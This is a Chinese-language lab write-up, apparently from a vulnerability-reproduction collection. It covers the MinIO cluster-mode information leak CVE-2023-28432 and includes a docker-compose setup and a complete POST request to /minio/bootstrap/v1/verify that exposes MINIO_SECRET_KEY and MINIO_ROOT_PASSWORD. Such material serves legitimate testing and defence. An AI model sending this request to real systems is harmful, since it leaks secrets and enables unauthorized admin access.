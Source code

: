 # MinIO集群模式信息泄露漏洞（CVE-2023-28432）

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

参考链接：

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## 漏洞环境

执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker-compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。

## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](1.png)

可见，其中包含`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。使用这个账号密码，即可成功登录管理后台：

![](2.png)
